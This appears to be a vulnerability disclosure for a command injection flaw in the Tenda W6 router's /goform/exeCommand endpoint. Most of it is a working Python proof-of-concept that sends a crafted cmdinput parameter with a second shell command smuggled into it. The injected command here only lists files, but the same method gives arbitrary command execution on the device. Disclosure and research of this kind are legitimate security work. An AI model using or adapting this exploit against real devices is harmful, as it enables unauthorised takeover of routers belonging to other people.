


# Tenda W6 Command Injection Vulnerability

## Device Vulnerability Introduction
Tenda W6 is an enterprise wireless AP router from Tenda Technology (Shenzhen, China).

A command injection vulnerability exists in /goform/exeCommand in Tenda W6 V1.0.0.9(4122) version, which allows attackers to construct cmdinput parameters for arbitrary command execution

Firmware download at: https://www.tenda.com.cn/download/detail-2576.html

## Exploit process





```python
burp0_url = "http://192.168.5.1/goform/exeCommand"
burp0_headers = {"Host":"192.168.5.1",
"Content-Length":"295",
"Accept":"*/*",
"X-Requested-With":"XMLHttpRequest",
"User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.5005.63 Safari/537.36",
"Content-Type":"application/x-www-form-urlencoded; charset=UTF-8",
"Origin":"http://192.168.5.1",
"Referer":"http://192.168.5.1/main.html",
"Accept-Encoding":"gzip, deflate",
"Accept-Language":"en-US,en;q=0.9",
"Cookie":"user=",
"Connection":"close"}
data1="cmdinput=asd;ls -la . > ./tmp/hack;aa"+'a'*0x0
requests.post(burp0_url,headers=burp0_headers,data=data1, verify=False,timeout=1)
```

[The specific reproduction process is shown in the video](./video/W6命令注入.mp4)


